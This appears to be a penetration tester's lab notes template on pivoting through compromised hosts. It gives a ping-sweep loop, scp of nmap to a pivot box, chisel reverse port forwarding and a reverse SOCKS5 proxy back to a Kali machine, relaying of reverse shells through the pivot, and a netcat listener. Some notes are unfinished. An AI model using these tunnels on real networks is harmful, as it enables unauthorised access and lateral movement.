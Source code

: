 ```yaml
---
created_date: 12 October 2023
updated_date: 12 October 2023
type: windows/linux/template
---
```

##### Machine Information
```
IP Address:
Hostname:
Operating System:
Exploit & Port:
Privilege Escalation:
Credentials:

Path to Box:

-> NIX01 - 192.168.1.1
--> NIX02 - 192.168.1.2
```
### High-Level Summary

A brief description of the attack chain with machine names, including the depth of compromise should be included here.

-------------


#pingsweep
- Pingsweep for loop
```bash
for i in $(seq 254); do ping 192.168.146.${i} -c1 -W1 & done | grep from 

- where c1 = 1 connection
- where w1 = timeout
example:
64 bytes from 192.168.146.2: icmp_seq=1 ttl=128 time=0.351 ms
64 bytes from 192.168.146.129: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 192.168.146.134: icmp_seq=1 ttl=128 time=1.78 ms

```

#static #binaries #scp
- Typically way faster than running nmap through a proxychains tunnel
- can just pull static binaries onto system and scan from the pivot box
```bash
scp nmap pivot@10.1.1.10:/tmp

- secure copying nmap from kali machine to the pivot IP and placing into /tmp
- if ssh is open, need to put in password
```

#chiselserver 
- Ran on Kali machine
```bash
./chisel_64 server --socks5 -p 1080  --reverse
2023/10/12 21:21:21 server: SOCKS5 server enabled
2023/10/12 21:21:21 server: Reverse tunnelling enabled
2023/10/12 21:21:21 server: Fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11
2023/10/12 21:21:21 server: Listening on 0.0.0.0:1080...

- keep note of the fingerprint that gets spit out after
where --reverse = the server reaching out to the client which is weird in nature
```

#chiselclient 
- Ran on T1 that has internal network access
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.134:1080 R:8000:192.168.146.40:80


Where R: == Reverse Port Forward
Where 8000 == Reverse all traffic from next statement to port 8000 on the kali machine
Where 192.168.146.40:80 == Reversing all traffic from the web server to our kali localhost:8000. Dragging it back to our physical server
```

#socksproxy #chiselclient
- just another way to do it different than above.
- gives access to everything in internal environment
- instead of port forwarding from one ip to another, socks allows for complete view of internal network
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.129:1080 R:socks5

where R:Socks5 == Reverse Port Forward from anything utilizing proxychains socks5
where  192.168.146.134:1080 == hitting port 1080 on kali localhost and getting reverse forwarded back through the socks proxy to kali machine
where 
```

#reverseshell #proxychains
- Setting up port forwarding to allow a reverse shell to come back through 
- from T2 -> T1 -> Kali machine.
- Setup on Pivot Box T1
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.129:1080 0.0.0.0:9999:192.168.146.129:9999

where 192.168.146.129:1080 == chisel server ip address and port
where 0.0.0.0:9999 == T1 any ip address that is hitting port 9999
where 192.168.146.129:9999 == Will be redirected to the kali machine on port 9999

- to utilize this can setup a 
```

#listener
- netcat listener on port 9999 attacker machineto catch any reverse shell
```bash
[root💀/opt/chisel/archive] [192.168.146.129] [2023-10-12 21:53:37] 
 └─╼ # nc -lvnp 9999
listening on [any] 9999 ...

```


-------


